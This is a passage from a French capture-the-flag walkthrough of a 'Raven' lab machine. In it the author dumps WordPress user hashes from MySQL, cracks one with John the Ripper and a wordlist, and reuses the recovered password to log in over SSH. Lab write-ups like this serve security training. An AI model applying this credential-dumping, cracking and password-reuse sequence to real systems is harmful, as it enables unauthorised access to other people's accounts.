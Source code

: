 ```console
+-----------------------+
| wp_commentmeta        |
| wp_comments           |
| wp_links              |
| wp_options            |
| wp_postmeta           |
| wp_posts              |
| wp_term_relationships |
| wp_term_taxonomy      |
| wp_termmeta           |
| wp_terms              |
| wp_usermeta           |
| wp_users              |
+-----------------------+
12 rows in set (0.00 sec)

mysql> select ID, user_login, user_pass, user_email, display_name from wp_users;
+----+------------+------------------------------------+-------------------+----------------+
| ID | user_login | user_pass                          | user_email        | display_name   |
+----+------------+------------------------------------+-------------------+----------------+
|  1 | michael    | $P$BjRvZQ.VQcGZlDeiKToCQd.cPw5XCe0 | michael@raven.org | michael        |
|  2 | steven     | $P$Bk3VD9jsxx/loJoqNsURgHiaB23j7W/ | steven@raven.org  | Steven Seagull |
+----+------------+------------------------------------+-------------------+----------------+
2 rows in set (0.00 sec)

mysql> exit
Bye
michael@Raven:~$
```

Avec un peu de chance, [__John The Ripper__](http://openwall.com/john/) ne fera qu'une bouchée de ces hashs.

```console
root@blinils:~# cat pass-wordpress-raven.txt
michael:$P$BjRvZQ.VQcGZlDeiKToCQd.cPw5XCe0
steven:$P$Bk3VD9jsxx/loJoqNsURgHiaB23j7W/

root@blinils:~# john pass-wordpress-raven.txt --wordlist=rockyou.txt
Using default input encoding: UTF-8
Loaded 2 password hashes with 2 different salts (phpass [phpass ($P$ or $H$) 128/128 AVX 4x3])
Press 'q' or Ctrl-C to abort, almost any other key for status
pink84           (steven)
1g 0:00:43:40 DONE (2018-11-11 12:12) 0.000381g/s 5473p/s 5490c/s 5490C/s            ..*7¡Vamos!
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

Après vérifications, il s'avère que Steven utilise le même mot de passe pour ses accès SSH et WordPress !

```console
root@blinils:~# ssh steven@192.168.56.105
steven@192.168.56.105's password: 

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Mon Aug 13 14:12:04 2018

$ id; uname -a;
uid=1001(steven) gid=1001(steven) groups=1001(steven)
```